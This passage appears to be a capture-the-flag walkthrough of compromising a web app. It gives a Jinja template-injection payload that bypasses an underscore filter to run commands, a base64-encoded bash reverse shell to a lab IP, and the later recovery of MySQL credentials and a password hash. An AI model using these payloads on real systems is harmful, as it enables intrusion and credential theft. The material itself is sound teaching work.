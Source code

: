 ![image](https://i.imgur.com/t52h5cm.png)

We can grab this text and put it in a file. After we copy and paste the entire output in a local file, we can use the syntax below to arrange all subclasses on new lines, start reading from the 2nd line (the first line only says the class type), recode html to utf-8 and grep -n allows to list the line number.

```bash
cat classes|sed 's/, /\n/g'|tail -n +2|recode html..utf-8|grep -n 'Popen'
```

![image](https://i.imgur.com/nZxU29S.png)

We find out that `Popen`, a class we can use for RCE, is number `365`. With that piece of information, we can use the same trick as before to build this payload and bypass the double underscore filter:

```bash
{{(''|attr(["_"*2,"class","_"*2]|join)|attr(["_"*2,"base","_"*2]|join)|attr(["_"*2,"subclasses","_"*2]|join)())[365]('id',shell=True,stdout=-1).communicate()}}
```

We confirmed we have Remote Command Execution at this point:

![image](https://i.imgur.com/zoejMPo.png)

We can use a simple bash reverse shell that's base64 encoded to avoid weird characters and get a foothold as user "www-data":

```bash
{{(''|attr(["_"*2,"class","_"*2]|join)|attr(["_"*2,"base","_"*2]|join)|attr(["_"*2,"subclasses","_"*2]|join)())[365]('echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMTI3LjE0MC8xMzM3IDA+JjE=|base64 -d|bash',shell=True,stdout=-1).communicate()}}
```
![image](https://user-images.githubusercontent.com/80063008/235957973-1c204ca3-6b98-486e-ba71-c647c4061c22.png)

Now another enumeration phase begins. We search around and find that there's a user called `consuela`.

![image](https://user-images.githubusercontent.com/80063008/235958522-2d3a48fd-1056-41a3-893e-4e505ee33602.png)

The `app.py` that was running the website was found on /opt/app and we have some MySQL credentials:
![image](https://i.imgur.com/XssPm9f.png)

Trying these creds to switch or login to user Consuela doesn't work. However, we can use them to check the MySQL database. 

```bash
mysql -h localhost -u iclean -D capiclean -p
```
We have a users tables:

![image](https://i.imgur.com/Y3m4BnO.png)

In this table, we see the hash of the password of user consuela:
![image](https://i.imgur.com/5ow4xnv.png)
